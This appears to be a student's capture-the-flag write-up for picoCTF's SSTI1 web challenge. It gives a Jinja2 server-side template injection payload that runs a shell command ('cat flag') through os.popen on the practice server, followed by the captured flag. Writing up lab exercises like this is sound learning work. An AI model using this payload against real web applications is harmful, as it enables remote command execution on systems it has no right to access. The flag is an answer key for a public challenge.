
#### Description

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:60337/)!

-------------

![[comando.png]]

{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}


FLAG:

![[Primer Examen Parcial - Parte 2 - Web/SSTI1/FLAG.png]]

# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}